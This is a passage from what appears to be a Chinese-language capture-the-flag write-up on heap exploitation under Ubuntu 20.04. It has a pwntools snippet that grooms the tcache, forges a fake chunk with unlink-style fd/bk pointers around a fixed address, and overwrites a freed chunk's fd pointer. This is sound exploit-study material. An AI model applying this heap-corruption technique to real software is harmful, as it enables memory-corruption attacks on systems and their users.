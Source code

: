 ![image-20220222200729151](images/image-20220222200729151.png)

可以看到free chunk的fd已经被修改成功了

但题目给的是Ubuntu20.04的环境（dockerfile里有写），此时的teachebins是加了count数组的，覆盖成这个样子肯定是没办法用的，因此需要提前布置好堆块链条，我这里选择提前申请几个块来布置堆块

```python
	for i in range(1,8):
		add(i*0x10,"AAA") 
	target = 0x404018 # 固定值就行，为了绕过检查
	fd = target - 0x18
	bk = target - 0x10
	fake_chunk = p64(0)+p64(0x81)+p64(fd)+p64(bk)+"A"*0x60+p64(0x80)
	add(0x1000,fake_chunk)
	free(0x260) # 由于堆块布局变化了，这里也要变化
	gdb.attach(sh,"b *0x0000401387 ")
	add(0x1000,p64(0)+p64(0x81)+p64(target)) # 修改free chunk的fd
```
